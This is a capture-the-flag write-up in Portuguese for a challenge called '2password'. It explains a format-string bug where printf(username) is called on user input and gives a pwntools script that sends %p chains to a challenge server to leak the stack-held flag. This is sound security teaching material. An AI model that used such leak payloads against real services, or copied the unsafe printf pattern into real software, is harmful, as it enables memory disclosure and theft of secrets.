 ``` 2password.c
  if ( !strcmp(username, "kaiphait") && !strcmp(password1, "correct horse battery staple") && !strcmp(password2, flag) )
  {
    puts("Access granted");
  }
  else
  {
    printf("Incorrect password for user ");
    printf(username);
    putchar(10);
  }
  return 0;
}
```

A vulnerabilidade está na linha `printf(username);`.
Essa linha usa o `username` (controlado pelo usuário) diretamente em `printf` sem um _format specifier_ (como `%s`). Se nossa entrada contiver _format specifiers_ (ex: `%p`, `%x`), o `printf` vai vazar dados da _stack_!
A _flag_ é lida em um _buffer_ na _stack_ (`char flag[48]`). Como `username` também é uma variável na _stack_, a _flag_ pode estar próxima na memória. Com o _PIE_ ativado, endereços absolutos são randomizados, mas posições relativas na _stack_ durante uma execução permanecem consistentes.

A seguir o exploit que utilizamos para obter a flag:

``` exploit.py
import re
from pwn import *
pos = 1
while True:
    r = remote('chall.lac.tf', 31142)
    username = b''
    while True:
        fmt = b'%%%dp'%pos
        if len(username + fmt) > 40:
            break
        username += fmt
        pos += 1
    print(username)
    r.sendline(username)
    r.sendline(b'password1')
    r.sendline(b'password2')
    r.recvuntil(b'Incorrect password for user ')
    line = r.recvline().decode().strip()
    for m in re.finditer(r'0x[0-9a-f]{1,16}', line):
        val = int(m.group(0), 16)
        print('%016x'%val, repr(p64(val)))
```

Passo a passo:
1. **Payload de Format String**: O _username_ é preenchido com `%1p`, `%2p`, etc. Cada `%p` lê um valor da _stack_ e o exibe como _pointer_ (hex).
2. **Gatilho da Vulnerabilidade**: Quando o programa faz `printf(username)` com username guardando os *format specifiers*, os dados vazados são imprimidos.
3. **Interpretando Dados Vazados**: Essa saída contém valores hex (como `0x7ffdecfe4240`). Eles são convertidos em _chunks_ de 8 bytes e interpretados como _strings_.
